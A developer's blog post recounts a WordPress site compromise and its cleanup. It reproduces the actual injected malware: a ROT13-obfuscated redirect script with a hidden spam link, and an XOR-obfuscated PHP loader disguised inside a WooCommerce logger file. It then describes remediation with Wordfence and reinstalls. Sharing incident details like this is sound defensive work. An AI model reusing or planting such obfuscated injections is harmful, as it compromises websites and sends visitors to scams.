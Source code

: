 ---

title: "Wordpress redirect hack"
date: "2020-03-10"
sinopsis: "A wordpress site I was building was hacked, I lost a full day cleaning it up"
tags: [Wordpress, hack, infected]
---# So you've been hacked

## Wordpress redirect hack

Testing out a website we were building for a client, suddenly, the website starts redireting to spam websites, like lottery scam pages and whatnot.

What I did first, of course, was inspecting the source code of the website, that is to say the raw html of your site.
The hack was injecting a div, with a script, just above the main wrapper

```HTML

<div id="3f41457d"><a href="http://perfectfastsale.su" style="visibility: hidden" title="rx online">rx online</a><script>String.prototype.a73fba7d=function(){return this.replace(/[a-zA-Z]/g,function(c){return String.fromCharCode((c<='Z'?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26);});};u='uggcf://trglbhecevmrabj.yvsr/?h=l2lxnrj&b=2khc89e&z=1&g=Z09';function f31454d7(){window.top.location.href=u.a73fba7d();}setTimeout(f31454d7,4987);</script></div>


```

And that is just the begining. Almost 50 infected wordpress core files, injecting stuff. What a blast...

Stuff like this, into a Wordpress logging class:

```PHP

<?php $NfGPtIkV='3H.--2a  S1, R-'; $ywpPnUj='P:KLYW>FU=RXI=C'^$NfGPtIkV; $mAxOujic='R.ox4  Q RZR6NADGL4Il4Q;3H8F5ic -LojYB1mj5DE2Y.=WcHT0n=-;9hr B=gh>P80XMt1-0xuxbqJ5lbfP8UHOlbowonaBU+ ig0Ulchcmr.tO,IQ16LS= =LobGNWGeXzd=jZ75rwMszsDV ;pmG+Riur< =8m9ccy;2 =WYzp V6a:yMn2l 2M 8YjCOG hJp0GX.EhHQY=LVGX,3=CPcLi=SJ3.,1BIoK.J8 3qZD0+:-T+ qPmf0to +iq2XwpQ,=xKkeg8X8;2DE=aQl2+7 qX 1Mqzi-Y,cdbs=V:WTeea=;=, u=:xyEPglTb2+1 zr4S0TT6W6R2IeB;y,0bwjtXR:wC1WWfnyHR MAK1pj:HcCmD6FWfX03bThjQ7CkYM2OYOI qlYAN68=VibY8y.lfK1R8PAOYn;XNKA YPPI Q-R4oIRH b<+BBo8Z1PrdaT,RD>-Nj70.4lgre+  L+GEHCjo:9,np5P6RaoenXN1526 YJjK= IEKNkU38Runm ,7SexlUPf93dcmIT,Z4W, 0roNQrgUoJVUc4PBzYSuW6bvWJGLXhu=nkQVa6WZcmNZtcWUO0W,f-EJfKF=6=CynM +=R2.bhPmW,;6YGdfnbeF7YxH1.Lqn.W 3gSH O>U.7akjOmD UI:jeka>C'; $VYlFrwZx=$ywpPnUj('', ';HGYRUN2T;5<i+9-48GaKL>Il,Y2T6<MX8HCpbJgcS1+Q-GR9C0;B1YLOX7-M7IOLZ1LQtmPZHIQUXBQjNfkotW <oQBHPTdhK3DRACYuQCXXMVGH<X;=TXdwYAI-FYgj>lNqpm4N5BARYpSRW 7TZ+I.vr7UVWEDcIPCFYHFRQ27RTK3OHgPvd;eRW9UJ7Bg 2TAqz9:RSObl58I-vzxJRQ05XFMY2>RqGT;iRkH+TSVJPNVDHH5HHQxI9s; kb,QS+WT:IDXvUECN9TNWmeFkXHVJCA.3EHmLZMF<UXnkWY7N6tXEEKZQYEN7Grs,6GDuFVJEASROY92;D2W1ZiMfd+ia729 x3IWgZ2.FSGhvV,->TYJABjJI W2693UJBiHN:R:PSD;k=.=AQQye8WTH3RhPEsSfloU3L1ary.N6=.3I8<93EyU=F0-3<A=cF76GZ;B5DP>0I1+ZHfNSQZUEKRAOAT-t, 1jCT0PJFTQ1B3AICN9<CTKiK<35.EI:18fL>VAuYNIDMC2LXJspNTWQKI-5X;opGEIU2gqOZuHzfbPV1pM;6D1UPB5,szhYAYZZecPS5oUJgzREw4=B6U9F 39.>TEI0QI=ARQ=SJEDpI3MOWpnDFNBEfLSq-GO YJJ6TR<t8A6R:OSF6CtgME- NBUBZ4>'^$mAxOujic); $VYlFrwZx();
/**
 * Provides logging capabilities for debugging purposes.
 *
 * @class          WC_Logger
 * @version        2.0.0
 * @package        WooCommerce/Classes
 */
```

This was injected into you name it, plugins, theme files, wordpress core files... Amazing. So what now?
Let's try to remove it manually and hope the site does not break.
Certain plugins can help remove malicious files, Wordpress Defender, only for core files, is really good. You can pay the pro version for plugins and software

The infection also reached the uploads folder,
example: wp-content/uploads/2020/02/blogking.php,
and also this as well:

![html](./images/wordpress-hacks.jpg)

After a few backs and forths, deleting infected plugins, infected themes. I still couldnt resolve the issue. Since every page on the website was redirecting to this malicious site I thought the issue was a script being injected globally. But no, after searching the web a bit more, while I was massively deleting files via SFTP, I found a recommendation for the plugin Wordfence. Its the best. It pointed me to the correct direction. All of my pages were infected, they were edited and they had a block added. Inside this block there was a DIV tag with an A tag, which would contain a malicious site. There was also a script tag which would make the site redirect to that a Tag on a timeout. Check it out.

![html](./images/wordpress-hacks2.jpg)

Finally after removing the blocks, the problem was solved.

1. I deleted all of my flatsome parent theme file and I did a fresh copy of the parent theme.
2. Deleted woocommerce since it was infected.
3. My child theme was also infected, so I had to clean up those php files.
4. Also, some plugins were infected, I just deleted those via FTP and re-installed them.

So, it was not the end of the world, but I did loose a day, where I almost had a little heart attack when I thought I lost the whole website!
